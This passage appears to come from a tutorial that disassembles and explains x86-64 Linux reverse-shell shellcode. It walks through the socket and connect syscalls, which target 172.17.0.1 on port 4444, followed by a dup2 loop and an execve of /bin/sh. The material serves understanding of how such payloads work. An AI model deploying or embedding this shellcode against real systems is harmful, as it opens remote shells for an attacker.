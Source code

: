 ```
19: 48 89 e6                mov    rsi,rsp
1c: 6a 10                   push   0x10
1e: 5a                      pop    rdx
1f: 6a 2a                   push   0x2a
21: 58                      pop    rax
22: 0f 05                   syscall
24: 6a 03                   push   0x3
26: 5e                      pop    rsi
27: 48 ff ce                dec    rsi
2a: 6a 21                   push   0x21
2c: 58                      pop    rax
2d: 0f 05                   syscall
2f: 75 f6                   jne    0x27
31: 6a 3b                   push   0x3b
33: 58                      pop    rax
34: 99                      cdq
35: 48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
3c: 73 68 00
3f: 53                      push   rbx
40: 48 89 e7                mov    rdi,rsp
43: 52                      push   rdx
44: 57                      push   rdi
45: 48 89 e6                mov    rsi,rsp
48: 0f 05                   syscall 
```

Let's decompose it:
```
0:  6a 29                   push   0x29
2:  58                      pop    rax
3:  99                      cdq
4:  6a 02                   push   0x2
6:  5f                      pop    rdi
7:  6a 01                   push   0x1
9:  5e                      pop    rsi
a:  0f 05                   syscall
```
This corresponds to `int fd = socket(AF_INET, SOCK_STREAM, 0)` which creates an IPv4 TCP socket.

```
c:  48 97                   xchg   rdi,rax
e:  48 b9 02 00 11 5c ac    movabs rcx,0x10011ac5c110002
15: 11 00 01
18: 51                      push   rcx
19: 48 89 e6                mov    rsi,rsp
1c: 6a 10                   push   0x10
1e: 5a                      pop    rdx
1f: 6a 2a                   push   0x2a
21: 58                      pop    rax
22: 0f 05                   syscall
```
This initiates the connection: `connect(fd, &sock_addr, sizeof(sock_addr))`. `sock_addr` address family is set to `AF_INET` the port is set to `4444`, and the IP address is set to `172.17.0.1`.
